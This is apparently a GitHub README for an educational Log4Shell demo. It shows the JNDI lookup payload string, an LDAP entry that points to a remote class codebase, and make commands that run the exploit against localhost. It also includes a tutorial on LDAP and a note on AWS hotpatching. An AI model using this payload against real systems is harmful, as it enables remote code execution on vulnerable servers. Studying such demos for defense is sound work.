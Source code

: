 # Log4Shell

This repo contains code to demonstrate how the remote code execution vulnerability in log4j works. **For educational purposes only**. Read more here: https://www.lunasec.io/docs/blog/log4j-zero-day/ and here https://nvd.nist.gov/vuln/detail/CVE-2021-44228.

## How it works

* [`DoJndiLookup`](src/main/java/com/kelseymckenna/ldap/DoJndiLookup.java) executes the following statement:
    ```
    LOGGER.info("${jndi:ldap://localhost/cn=log4shell,dc=example,dc=com}");
    ```
* Log4J makes a request to the LDAP server ("localhost" here just for testing) with the filter/query `cn=log4shell,dc=example,dc=com`
* The server returns something like this:
    ```
    dn: cn=log4shell,dc=example,dc=com
    objectClass: javaContainer
    objectClass: javaNamingReference
    cn: log4shell
    javaClassName: foo
    javaFactory: Log4Shell
    javaCodebase: http://localhost:8000
    ```
* It makes a request to the file server (in this case just a Python3 "http.server") at `http://localhost:8000/Log4Shell.class`. It determined the URI using the `javaCodebase` and `javaFactory` attributes.
* The `Log4Shell` class implements `javax.naming.spi.ObjectFactory`. The return value from its `getObjectInstance` method is what gets logged in `DoJndiLookup`. The `getObjectInstance` method can have arbitrary code.


## How to run

1. Either build an image from the Dockerfile, e.g. `docker build . -t local/log4shell` then run it, e.g `docker run -it local/log4shell sh` OR run the following (adjust the command for your OS):
    ```
    sudo yum install gcc java-1.8.0-openjdk-devel maven -y
    make customize-config
    ```
2. Run
    ```
    make start-slapd
    make add-log4shell-entry
    ./ldap/search.sh "cn=log4shell,dc=example,dc=com"
    make start-http-server
    make run-exploit # You should see "WARNING: This is an arbitrary command run from Log4Shell.java!" in the logs.
    ```


## LDAP

I'll cover the main things I learned. Don't take this as gospel.

LDAP: lightweight directory access protocol.

A "directory" is a **hierarchical database**. For example, you could have an employee in that directory called Joe who works in the Engineering department at Example Company. He would be identified by a **distinguished name** (dn) of `cn=joe,ou=engineering,dc=example,dc=com`; in English that would be "Common Name: Joe, Organizational Unit: Engineering, Company: example.com" (dc means "domain component"). The entries can have attributes too, see below.

You can add entries to the database with the `ldapadd` command, specifying a `ldif` (LDAP Data Interchange Format) file to load the entries from. Entries are separated by empty lines in `ldif` files that look like this:
```
dn: c=US,dc=example,dc=com
objectclass: country
c: US

# other entries ...

dn: cn=Joe Bloggs,ou=Engineering,c=US,dc=example,dc=com
objectclass: organizationalPerson
cn: Joe Bloggs
sn: Bloggs
title: Vice President
```

In this repo I made my organization "example.com", i.e. `dc=example,dc.com`. This means all entries in the database are **descendants** of this entry. For example, I can't add an entry with a distinguished name of `cn=123`, it would need to be `cn=123,dc=example,dc=com`.

Each entry has an **`objectclass`** attribute that determines the **schema** of the entry (see [RFC2256](https://datatracker.ietf.org/doc/html/rfc2256)). For example, there's a built-in `country` object class that has a schema with a mandatory `c` attribute (the two-letter ISO 3166 country code) and some optional attributes. You have to put the mandatory attributes in the distinguished name; the example entry above for US must have a dn of `c=US,dc=example,dc=com`; it couldn't have a dn of `c=GB,dc=example,dc=com` or `x=US,dc=example,dc=com` or `x=1,c=US,dc=example,dc=com`.

Object classes have a **type hierarchy** with the abstract class `top` at the top. You can specify multiple object class attributes for an entry. You'll see in [`log4shell.ldif`](ldap/log4shell.ldif) two object classes: `javaContainer` and `javaNamingReference`. The latter object class is the important one - it has the attributes we need for the exploit - but it is an "auxiliary" object class and its parent `javaObject` is an abstract class, so we specify `javaContainer` to give it a concrete ("structural" in LDAP terms) type.

You can **search** the directory like a database too. E.g. to lookup the entry for the US by ID/distinguished name you can run `ldapsearch -x -s base -b 'c=US,dc=example,dc=com'`. Or if you want to list all entries "under" US, e.g. show all departments and employees in US, then you could change `-s base` to `-s sub`. You can filter by the attributes too.

I used **[OpenLDAP](https://www.openldap.org/)** to get a stand-alone LDAP daemon called **slapd**. The Makefile customizes the database to use "example.com" as the root domain instead of "my-domain.com" and adds an "include" to import the java schema in addition to the core schema. 

In order to **modify** the database we have an admin user with the distinguished name `cn=Manager,dc=example,dc=com`. The admin user and password were configured when we originally created the database with `/usr/local/etc/openldap/slapd.ldif`. When you execute commands you can specify the password inline with `-w <password>` and specify the admin user's dn with `-D <dn>`. E.g. `ldapadd -w secret -D "cn=Manager,dc=example,dc=com" -f ldap/log4shell.ldif` will add the entries in `log4shell.ldif` to the database. The default configuration allows **read-only access to all users**.


## Notes

* Fun fact: AWS EC2 instances have a process running that automatically patches vulnerable applications! If you run `ps -ef | grep log4j-cve` you'll see `/usr/bin/log4j-cve-2021-44228-hotpatch` is running. This means JNDI lookups will print `Patched JndiLookup::lookup()` instead. Read more here: https://aws.amazon.com/blogs/opensource/hotpatch-for-apache-log4j/
* The [`ldap/`](./ldap) folder has some helper scripts for querying slapd (the LDAP directory server)

